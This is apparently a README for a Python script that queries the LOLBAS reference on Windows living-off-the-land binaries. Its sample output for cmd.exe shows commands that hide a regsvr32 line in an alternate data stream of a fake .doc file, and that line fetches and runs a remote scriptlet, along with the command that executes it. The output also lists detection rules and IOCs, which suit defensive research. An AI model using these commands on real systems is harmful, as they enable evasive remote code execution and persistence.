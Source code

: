 # LOLBAS.py

## Description
A Python script to query LOLBAS: https://lolbas-project.github.io/.

```
usage: LOLBAS.py [-h] -f FILE

A Python script to query LOLBAS: https://lolbas-project.github.io/.

options:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  Query LOLBAS API for a specific file.
```

## Requirements
- Python ≥ 3.0

## Usage
- Download the LOLBAS repository: `git clone https://github.com/malwaredetective/LOLBAS.git`.
- Execute **LOLBAS.py** within your terminal: `python3 LOLBAS.py -f <string>` to query to LOLBAS API for a specific executable.

```
python3 LOLBAS.py -f cmd.exe     

Name : Cmd.exe
Description : The command-line interpreter in Windows
Author : Ye Yint Min Thu Htut
Created : 2019-06-26

Category: ADS
Description: Add content to an Alternate Data Stream (ADS).
Command: cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct ^scrobj.dll > fakefile.doc:payload.bat
Usecase: Can be used to evade defensive countermeasures or to hide as a persistence mechanism
Privileges: User
OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
MitreID: T1059.003

Category: ADS
Description: Execute payload.bat stored in an Alternate Data Stream (ADS).
Command: cmd.exe - < fakefile.doc:payload.bat
Usecase: Can be used to evade defensive countermeasures or to hide as a persistence mechanism
Privileges: User
OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
MitreID: T1059.003

Path : C:\Windows\System32\cmd.exe
Path : C:\Windows\SysWOW64\cmd.exe

Sigma : https://github.com/SigmaHQ/sigma/blob/688df3405afd778d63a2ea36a084344a2052848c/rules/windows/process_creation/process_creation_alternate_data_streams.yml
Elastic : https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_ads_file_creation.toml
Elastic : https://github.com/elastic/detection-rules/blob/61afb1c1c0c3f50637b1bb194f3e6fb09f476e50/rules/windows/defense_evasion_unusual_dir_ads.toml
IOC : cmd.exe executing files from alternate data streams.
IOC : cmd.exe creating/modifying file contents in an alternate data stream.

Link : https://twitter.com/yeyint_mth/status/1143824979139579904

url : https://lolbas-project.github.io/lolbas/Binaries/Cmd/
```
